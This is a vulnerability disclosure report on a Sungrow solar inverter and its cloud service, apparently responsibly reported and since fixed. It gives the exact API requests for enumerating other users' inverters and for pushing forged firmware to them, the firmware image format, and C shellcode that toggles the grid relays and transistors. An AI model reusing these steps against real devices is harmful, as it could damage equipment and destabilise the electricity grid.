

# Cybersecurity Analysis of the Sungrow inverter system

In this report a security analysis of a **Sungrow solar inverter system and its associated cloud** is presented. 
Different vulnerabilities are described:
* It was possible to extract sensitive data from the cloud remotely with a simple installer account: serial numbers and *uuid* of all registered inverters and connectivity devices associated to all registered users. 
* A firmware update could be remotely triggered on any connected inverter, multiple inverters could be updated at once. Only the *uuid* of the devices was needed.
* The firmware update images were not cryptographically signed, so that manipulated update images could be crafted and used to update inverters remotely. Valid, but manipulated firmware update images could be uploaded to the cloud servers. Especially, some power electronics and relays could be switched on and off almost arbitrary. 

> [!NOTE]
> Vulnerabilities have been fixed

## Table of content

[TOE](#toe) \
[API encryption / obfuscation](#api-encryption--obfuscation) \
[Firmware update image composition](#firmware-update-image-composition) \
[Firmware Update](#firmware-update) \
[Proof of Concept](#proof-of-concept) \
[Exploitation](#exploitation) \
[Disclosure](#disclosure)

## TOE

The TOE consists in a [Sungrow Inverter](https://en.sungrowpower.com/) `SG4.0RS` with a connectivity device `WiNet-S` connected to the manufacturer's cloud called [isolarcloud](https://isolarcloud.eu) (EU server). 

Versions of the components:
* CPU   SUNSTONE-S_01011.01.35
* SDSP	SUNSTONE-S_04011.01.01
* MDSP	SUNSTONE-S_03011.01.19

Here is a simple block diagram of the system:


A DC/DC converter followed by a H bridge converts the solar electrical energy into grid compatible energy. 

Different *updatable* microcontrollers are implemented:
* An arm-based CPU, Gigadevice GD32F407
* A *master* DSP called MDSP, TI TMS320F28374S
* A *slave* DSP called SDSP, TI TMS320F28022
* An AFCI (AFCI means Arc Fault Circuit Interrupter) TI DSP

Power electronics and relays are controlled by the DSPs.

As an example, here are some pins of the MDSP used to switch the power electronics:
* Relays: GPIO45 and GPIO73
* H Bridge Transistors: GPIO0, GPIO1, GPIO2, GPIO3, GPIO4, GPIO5
* Output Enable for the H Bridge Transistors Drivers: GPIO44

Here is a picture of the DSP board with MDSP and SDSP - with added JTAG cable (no JTAG protection was in place):



## API obfuscation

The cloud client (app or web) used by device's owners communicates with the cloud server via HTTP APIs over TLS (HTTPS). First an authentication procedure with user name and password is performed. A session token is then generated and used for all following API calls, with following format: `[user_id]_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx`. 
* `user_id` is an integer incremented for each new user registered on the platform (more than 350000 in the EU server at the time this report is written). 
* `xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx` is a 128 bit value in hex stream format.

Communication between client and cloud server is protected by TLS. On top of TLS, the manufacturer has implemented an own encryption mechanism: HTTP content is encrypted with AES128 in ECB mode and PKCS7 padding. An ephemeral AES key is generated on the client side for each API call. This key is encrypted with RSA (1024 bit, PKCS1.5) and transmitted via an HTTP header called `x-random-secret-key`. 

Additionally, the user_id is encrypted with RSA (1024 bit, PKCS1.5, same public key) and transmitted via an HTTP header called `x-limit-obj`.

The (plain) content of the API calls must contain following information:

```
{
    "api_key_param": {
        "timestamp": 1600000000000,
        "nonce": "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
    },
    "appkey": "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",
    "token": "xxxxxx_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
}
```

* `token`: the token obtained after authentication, including the user id.
* `timestamp`: actual unix time in ms (calls that are too old are rejected) 
* `nonce`: a 128 bit value in hex stream format, which must be changed after each call, otherwise the call is rejected.
* `appkey`: constant

Note that the server also implements an API call rate limitation per user.
The API obfuscation issue has been already discussed [here](https://github.com/MickMake/GoSungrow/issues/101).

## Firmware update image composition

Firmware images can be downloaded from [this github server](https://github.com/sungrow-firmware/firmware).
Compressed images are encrypted with AES128 in ECB mode. The key is hard coded in the manufacturer's app code.
After decryption, a valid zip format is recognized. The zip container can be decompressed and some `sgu` files are generated. Here is an example of file list from `SUNSTONE-S_B000.V001.P022-20230509.zip`:

* `AFCI_06002.01.06.sgu`
* `datetime`
* `SUNSTONE-S_01011.01.35.sgu`
* `SUNSTONE-S_03011.01.19.sgu`
* `Version instruction.xlsx`
* `Version instruction.xml`

The `Version instruction.xml` contains the update sequence for the different components. In this particular device, following components can be updated:
* arm CPU
* main DSP MDSP
* slave DSP SDSP
* AFCI DSP 

`sgu` files have following format:
* 64 bytes plain header called `header_1` in this report. 
* Encrypted content after the header. AES128 ECB is used as encryption algorithm. Again, the key is hard coded in the manufacturer's app code.

`header_1` format:
* Length of `header_2`, located in byte 26 to 29 (4 bytes, LSB first). This is the length of the second header. `header_2` is encrypted and part of the `sgu` content.
* CRC32_1: this CRC32 is located in byte 32 to 35. It is calculated on the second header `header_2` in decrypted form. 
* CRC32_2: this CRC32 is located in byte 38 to 41. It is calculated on the decrypted `sgu` content w/o `header_2`.

Here is an example of `header_1`:

```
Offset(h) 00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

00000000  53 75 6E 67 72 6F 77 00 0D 0A 49 41 50 00 00 00  Sungrow...IAP...
00000010  00 00 0D 0A 32 2E 30 00 0D 0A A0 00 00 00 0D 0A  ....2.0... .....
00000020  75 AB 24 BF 0D 0A A6 2D 21 34 0D 0A 00 00 00 00  u«$¿..¦-!4......
00000030  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
```
* `header_2` length is 160 bytes (0xA0)
* CRC_1 is `75 AB 24 BF`
* CRC_2 is `A6 2D 21 34`

Here is an example of decrypted `header_2`:
```
Offset(h) 00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

00000040  5B 44 45 56 5D 0D 0A 4D 4F 44 3D 41 47 41 54 45  [DEV]..MOD=AGATE
00000050  2D 53 0D 0A 44 56 45 52 3D 56 31 31 0D 0A 48 56  -S..DVER=V11..HV
00000060  45 52 3D 56 31 31 0D 0A 5B 50 43 42 31 5D 0D 0A  ER=V11..[PCB1]..
00000070  50 4E 3D 31 0D 0A 50 42 4E 4F 3D 50 2D 41 2D 30  PN=1..PBNO=P-A-0
00000080  30 30 30 30 31 0D 0A 50 42 4F 4D 3D 32 30 31 33  00001..PBOM=2013
00000090  30 31 30 37 0D 0A 50 42 53 4E 3D 0D 0A 5B 4D 43  0107..PBSN=..[MC
000000A0  55 31 5D 0D 0A 43 48 49 50 3D 54 4D 53 33 32 30  U1]..CHIP=TMS320
000000B0  46 32 38 33 37 37 0D 0A 4F 53 3D 0D 0A 41 50 50  F28377..OS=..APP
000000C0  3D 53 55 4E 53 54 4F 4E 45 2D 53 5F 30 33 30 31  =SUNSTONE-S_0301
000000D0  31 2E 30 31 2E 31 39 00 00 00 00 00 00 00 00 00  1.01.19.........
```

After `header_2`, a third header called here `header_3` can be found with a length of 79 bytes (ends with `CODE=`):

```
Offset(h) 00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

000000E0  5B 50 43 42 31 5D 0D 0A 5B 4D 43 55 31 5D 0D 0A  [PCB1]..[MCU1]..
000000F0  4F 53 0D 0A 43 52 43 3D 0D 0A 4C 45 4E 3D 0D 0A  OS..CRC=..LEN=..
00000100  43 4F 44 45 3D 0D 0A 41 50 50 0D 0A 43 52 43 3D  CODE=..APP..CRC=
00000110  34 41 20 39 45 20 35 36 20 41 32 20 0D 0A 4C 45  4A 9E 56 A2 ..LE
00000120  4E 3D 32 37 30 33 33 36 0D 0A 43 4F 44 45 3D     N=270336..CODE=
```

This header contains a length field and a CRC field (both UTF-8 encoded). The CRC (called CRC32_3 here) is calculated on the data placed just after `header_3` with a length found in the `LEN` field (here 270336 bytes length / integer; CRC32_3 = `4A 9E 56 A2`). Note that a padding with `0xFF` is added at the end of the decrypted `sgu` file to align the size to 128 bits (AES block length).

Knowing all this information, it is possible to craft a valid firmware update image with a manipulated firmware. No asymmetric signature has been found in the update image.

## Extracting valid serial numbers

Improper authorization enabled an attacker to get information related to any registered user: number of inverters, inverter types, and more important: inverter `uuid`. 

Here is the API call endpoint:
```
https://gateway.isolarcloud.eu/v1/devService/getRemoteUpgradeDeviceList 
```
Here is the plain content of the call:
```json
{
    "sys_code": 0,
    "psIds": "",
    "device_type": 1,
    "device_model_id": "",
    "device_sn": "",
    "user_id": [targeted_user_id],
    "ps_id_list": [],
    "sn_list": [],
    "uuid_list": [],
    "curPage": 1,
    "size": 10,
    "service": "getRemoteUpgradeDeviceList",
    "api_key_param": {
        "timestamp": [timestamp],
        "nonce": "[NONCE]"
    },
    "appkey": "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",
    "_vc": "XXXXXXXXXX",
    "token": "[VALID_TOKEN]"
}
```
Note that the `targeted_user_id` (integer) can be different from the user id associated with the token.

Here is an example of plain response (json list, truncated):
```json
[
    {
        "logger_code": 247,
        "is_enable": 1,
        "firmware_version_info": {
            "mdsp_version": "EMERALD-S_03011.01.09",
            "lcd_version": "EMERALD-S_01011.01.08",
            "afci_version": "AFCI_06002.02.07"
        },
        "is_haveversion": 1,
        "device_type": 1,
        "uuid": xxxxxx,
        "afci_version": "AFCI_06002.02.07",
        "sdsp_version": null,
        "battery_version": null,
        "communication_dev_sn": "Bxxxxxxxxxx",
        "temp_version": null,
        "pvd_version": null,
        "mdsp_version": "EMERALD-S_03011.01.09",
        "chnnl_id": 1,
        "ps_name": "Sxxxxxxxxxxxxxxxxxx",
        "grid_type_id": 0,
        "mcu_version": null,
        "m_version": null,
        "ps_id": xxxxxxx,
        "device_code": 1,
        "country_id": 1,
        "communication_dev_uuid": xxxxxx,
        "cpld_version": null,
        "device_model": "SG50CX-P2",
        "lcd_version": "EMERALD-S_01011.01.08",
        "data_flag_detail": 1813,
        "bat_version": null,
        "upgrade_version": null,
        "device_name": "Inverter2",
        "device_area": "Grid-connected point 1_1#unit",
        "device_model_id": xxxxxx,
        "version12": null,
        "version11": null,
        "sn": "Bxxxxxxxxxx",
        "device_sn": "Axxxxxxxxxx",
        "dev_status": 1,
        "arm_version": null,
        "ps_short_name": "Bxxxxxxxxxx",
        "communication_model": 1361
    },
    {
        "logger_code": 247,
        "is_enable": 1,
        "firmware_version_info": {
            "sdsp_version": "SUBCTL-S_04011.01.01",
            "mdsp_version": "BERYL-S_03011.01.64",
            "lcd_version": "BERYL-S_01011.01.32",
            "afci_version": "AFD_06001.02.03"
        },
        "is_haveversion": 1,
        "device_type": 1,
        "uuid": xxxxxxx,
        "afci_version": "AFD_06001.02.03",
        "sdsp_version": "SUBCTL-S_04011.01.01",
        "battery_version": null,
        "communication_dev_sn": "Bxxxxxxxxxx",
        "temp_version": null,
        "pvd_version": null,
        "mdsp_version": "BERYL-S_03011.01.64",
        "chnnl_id": 2,
        "ps_name": "Sxxxxxxxxxxxxxxxxxx",
        "grid_type_id": 0,
        "mcu_version": null,
        "m_version": null,
        "ps_id": xxxxxxx,
        "device_code": 1,
        "country_id": 1,
        "communication_dev_uuid": xxxxxx,
        "cpld_version": null,
        "device_model": "SG12RT",
        "lcd_version": "BERYL-S_01011.01.32",
        "data_flag_detail": 1813,
        "bat_version": null,
        "upgrade_version": null,
        "device_name": "Inverter1",
        "device_area": "Grid-connected point 1_2#unit",
        "version10": null,
        "system_version": null,
        "device_model_id": 743,
        "version12": null,
        "version11": null,
        "sn": "Bxxxxxxxxxx",
        "device_sn": "Axxxxxxxxxx",
        "dev_status": 1,
        "arm_version": null,
        "version4": "AFD_06001.02.03",
        "ps_short_name": "Bxxxxxxxxxx",
        "communication_model": 1361
    }
]
```

This information could be used to remotely update inverters.

## Firmware Update

A firmware update could be triggered from the cloud. Multiple devices could be updated with only one API call (a json list of `uuid` is used). 

First a valid firmware update image could be uploaded to the update server (how to craft a valid, manipulated image has been described before). Then a command is sent to the server to update the devices. 

Note that only the `uuid` of the devices was needed (how to get the uuid has be described before), any authenticated installer (i.e. anybody) could update any connected device. 

Here is the API sequence:

1. Get the upload parameters:
  + API URL: `https://gateway.isolarcloud.eu/v1/commonService/getOSSConfig` (`POST`, headers as described previously)
  + API Request Content (here in plain, must be encrypted):

```json
{
    "service": "getOSSConfig",
    "sys_code": 200,
    "api_key_param": {
        "timestamp": 1600000000000,
        "nonce": "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
    },
    "appkey": "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",
    "_vc": "XXXXXXXXXX",
    "token": "xxxxxx_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
}
```

  + Response Content (200):

```json
{
	"req_serial_num":"xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx",
	"result_code":"1",
	"result_msg":"success",
	"result_data":{
		"oss_file_url":"https://file.isolarcloud.eu/",
		"accessid":"xxxxxxxxxxxxxxxxxxxxxxxx",
		"policy":"",
		"signature":"xxxxxxxxxxxxxxxxxxxxxxxx=",
		"is_private_cloud":"0",
		"sgu_zip_dir":"sgu_zip/",
		"dir":"sgu_zip/",
		"host":"https://isc-file-du.oss-eu-central-1.aliyuncs.com",
		"expire":"30"
	}
}
```

2. Upload the update image file to the OSS file server (here `TEST.zip`):
  + API URL: `https://isc-file-du.oss-eu-central-1.aliyuncs.com/` (`POST` with `multipart/form-data`)
  + API Header: `Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxxx` 
  + API Request Content (not encrypted with manufacturer encryption, only TLS):

```
------WebKitFormBoundaryxxx
Content-Disposition: form-data; name="name"

TEST.zip
------WebKitFormBoundaryxxx
Content-Disposition: form-data; name="key"

sgu_zip/000000000000000000000-TEST.zip
------WebKitFormBoundaryxxx
Content-Disposition: form-data; name="policy"

------WebKitFormBoundaryxxx
Content-Disposition: form-data; name="OSSAccessKeyId"

xxxxxxxxxxxxxxxxxxxxxxxx
------WebKitFormBoundaryxxx
Content-Disposition: form-data; name="success_action_status"

200
------WebKitFormBoundaryxxx
Content-Disposition: form-data; name="signature"

xxxxxxxxxxxxxxxxxxxxxxxx=
------WebKitFormBoundaryxxx
Content-Disposition: form-data; name="file"; filename="TEST.zip"
Content-Type: application/x-zip-compressed

[UPDATE FILE BINARY HERE]
------WebKitFormBoundaryxxx--
```

  + Response: 200, no content

3. Prepare the firmware update:
  + API URL: `https://gateway.isolarcloud.eu/v1/devService/dealRemoteUpgrade` (`POST`, headers as described previously)
  + API Request Content (here in plain, must be encrypted):

```json
{
    "uuid_list": [0000000],
    "device_model_id": 227702,
    "device_type": 1,
    "remote_type": 1,
    "file_key": "sgu_zip/000000000000000000000-TEST.zip",
    "target_version": "TEST",
    "op_type": 1,
    "sys_code": 200,
    "api_key_param": {
        "timestamp": 1600000000000,
        "nonce": "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
    },
    "appkey": "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",
    "_vc": "XXXXXXXXXX",
    "token": "xxxxxx_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx",
    "lang": "_en_US"
}
```

  + Response Content (200):

```json
{
	"req_serial_num":"xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx",
	"result_code":"1",
	"result_msg":"success",
	"result_data":{
		"communication_module_sn_is_null_sn_list":[],
		"module_num_not_match_sgu_num_dev_list":[],
		"same_software_version_dev_sn_list":[],
		"communication_module_sn_is_null_uuid_list":[],
		"task_id":null,
		"no_available_sgu_file_dev_uuid_list":[],
		"not_conform_upgrade_strategy_sn_list":[],
		"hardware_version_not_match_dev_list":[],
		"conform_upgrade_strategy_uuid_list":[
			"0000000"
		],
		"code":"1",
		"not_support_upgrade_sn_list":[],
		"not_support_low_version_upgrade_device_info_map":{},
		"same_software_version_dev_uuid_list":[],
		"not_conform_upgrade_strategy_uuid_list":[],
		"conform_upgrade_strategy_sn_list":[
			"A0000000000"
		],
		"not_support_upgrade_uuid_list":[]
	}
}
```

3. Trigger the firmware update:
  + API URL: `https://gateway.isolarcloud.eu/v1/devService/dealRemoteUpgrade` (`POST`, headers as described previously)
  + API Request Content (here in plain, must be encrypted):

```json
{
    "uuid_list": [0000000],
    "device_model_id": 227702,
    "device_type": 1,
    "remote_type": 1,
    "file_key": "sgu_zip/000000000000000000000-TEST.zip",
    "target_version": "TEST",
    "op_type": 2,
    "task_name": "Inverter Remote Update",
    "expire_hour": 2,
    "expire_second": 7200,
    "sys_code": 200,
    "api_key_param": {
        "timestamp": 1600000000000,
        "nonce": "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
    },
    "appkey": "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",
    "_vc": "XXXXXXXXXX",
    "token": "xxxxxx_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
}
```

  + Response Content (200):

```json
{
	"req_serial_num":"xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx",
	"result_code":"1",
	"result_msg":"success",
	"result_data":{
		"communication_module_sn_is_null_sn_list":[],
		"module_num_not_match_sgu_num_dev_list":[],
		"same_software_version_dev_sn_list":[],
		"communication_module_sn_is_null_uuid_list":[],
		"task_id":"000000",
		"no_available_sgu_file_dev_uuid_list":[],
		"not_conform_upgrade_strategy_sn_list":[],
		"hardware_version_not_match_dev_list":[],
		"conform_upgrade_strategy_uuid_list":[
			"0000000"
		],
		"code":"1",
		"not_support_upgrade_sn_list":[],
		"not_support_low_version_upgrade_device_info_map":{},
		"same_software_version_dev_uuid_list":[],
		"not_conform_upgrade_strategy_uuid_list":[],
		"conform_upgrade_strategy_sn_list":[
			"A0000000000"
		],
		"not_support_upgrade_uuid_list":[]
	}
}
```

Notes:

* Only the `uuid` of the devices were needed. The server did not check wether the user owns the device. 
* A json list was used for the device `uuid`, so that many devices of the same type could be updated at once.

After this API call, the device(s) would automatically get and install the manipulated firmware update image.

## Proof of Concept

### Shellcode for MDSP and Update Image

As a proof of concept, a manipulated MDSP image has been crafted (based on the original image), which switches the grid protection relays and 2 H-Bridge transistors on and off every few 100 milliseconds. 

The original MDSP image - extracted via unprotected JTAG - contains a bootloader (probably not updatable) from address `0x00080000` to `0x00087FFF` and the application from address `0x00088000` to `0x000BFFFF`.

In the original MDSP update image - application part - a branch to the shellcode has been added after initialization, at address `0x0009A242`. The shellcode itself has been placed in some free place in the flash image. Here is the c code used to generate the shellcode:

```c
void dothat()
{
    long i;

    // disable all IRQ
    DINT;
    // allow access to system reg
    EALLOW;
    // switch off watchdog (! bits 5..3 have to be 101 !)
    WdRegs.WDCR.all = 0x00EF;

    // set GPIO0..5 as GPIO and OUTPUT
    GpioCtrlRegs.GPAMUX1.bit.GPIO4 = 0x0000;
    GpioCtrlRegs.GPAMUX1.bit.GPIO5 = 0x0000;

    GpioCtrlRegs.GPADIR.bit.GPIO4 = 0x1;
    GpioCtrlRegs.GPADIR.bit.GPIO5 = 0x1;

    // set OE as output, GPIO
    GpioCtrlRegs.GPBMUX1.bit.GPIO44 = 0x0000;
    GpioCtrlRegs.GPBDIR.bit.GPIO44 = 0x1;
    // clear bit == OE active
    GpioDataRegs.GPBCLEAR.bit.GPIO44 = 0x1;

	// endless loop
    while(1)
    {
        for(i = 0; i < 5000000; i++);

        // H T
        GpioDataRegs.GPATOGGLE.bit.GPIO4 =0x1;
        GpioDataRegs.GPATOGGLE.bit.GPIO5 =0x1;
        // relays
        GpioDataRegs.GPBTOGGLE.bit.GPIO45 =0x1;
        GpioDataRegs.GPCTOGGLE.bit.GPIO73 =0x1;
    }
}
```

A `sgu` file called `SUNSTONE-S_03011.01.20.sgu` has been built based on the modified binary, with all CRCs recalculated and using encryption as described previously. 

A `zip` file called `POCD.zip` has been generated with following files:

* `datetime` (not changed)
* `SUNSTONE-S_03011.01.20_DECRYPTED.sgu`
* `Version instruction.xml` with following content:
```xml
<?xml version='1.0' encoding='utf-8'?>
<root type="inverter">
	<point name="SUNSTONE-S_03011.01.20.sgu" type="inverter" update_seq="1" />
</root>
```

After padding the plain `zip` file with `0x00` (alignment to 128 bits), it has been encrypted as described previously, the result is `POCE.zip`.

### Uploading the manipulated firmware image and updating the inverter

This process could be performed with `curl` as described before or directly via the web cloud access. Here are the steps needed:

1. Create an installer account (can be done by anybody at any time)

2. In the left bar, click on **Firmware Update**

3. By adding a breakpoint in the javascript, it is possible to get the ephemeral AES128 keys used for http content encryption:


Another breakpoint is added before the http request is sent. Thereby the payload can be modified.
The modified payload can be encrypted externally:


The encrypted payload is then injected in the debugger via the console and the request is sent.

4. By modifying the `user_id` in the `getRemoteUpgradeDeviceList` request, any user can be targeted (timestamp and nonce have to be adapted):

```json
{
    "sys_code": 0,
    "psIds": "",
    "device_type": 1,
    "device_model_id": "",
    "device_sn": "",
    "user_id": [targeted_user_id],
    "ps_id_list": [],
    "sn_list": [],
    "uuid_list": [],
    "curPage": 1,
    "size": 10,
    "service": "getRemoteUpgradeDeviceList",
    "api_key_param": {
        "timestamp": [timestamp],
        "nonce": "[NONCE]"
    },
    "appkey": "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",
    "_vc": "XXXXXXXXXX",
    "token": "xxxxxx_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
}
```

The platform shows the devices associated with the targetted user (not the user logged in!):


5. Then the inverters are selected and the **Firmware Update** button is clicked. The **Local Update Package** feature is selected and the local file `POCE.zip` (generated previously) is uploaded:


6. After entering the password of the logged user (not the targeted user's password - this check is done on client side), the update process can be triggered:


After a few minutes, the inverter began to switch the grid-protection relays on and off.

### Result

Here is an oscilloscope picture of the grid side connected to a small signal generator:


This picture proves that every few 100 ms both protection relays and 2 transistors are switched on.

## Exploitation

All connected devices could probably be manipulated remotely and synchronously with a mass update command, even probably physically damaged via malicious firmware update. A synchronous manipulation may be problematic for the grid: according to [wikipedia](https://de.wikipedia.org/wiki/Netzfrequenz#cite_note-6), a loss of 3 GW electrical power production within the european grid network would lead to a frequency diminution of 200 mHz and is critical. At the time of this analysis, the sum of all (online) inverter's nominal power connected to the European server was about 10.070 GW.

Note that the manufacturer provides string inverters up to 350 kW. After analysis of the firmware update images, there is a high probability that these powerful devices could be remotely manipulated too. 

Users / plants with more than 100 such inverters have been found in the EU server, here is an example with more than 500 SG250HX (500 times 250 kW nominal inverter power) associated with one user (probably the operator of some solar farms):


## Disclosure

2023-12-27: Report disclosed to the BSI

2023-12-27: First answer from BSI

2024-04-21: Vulnerabilities have been fixed by the manufacturer
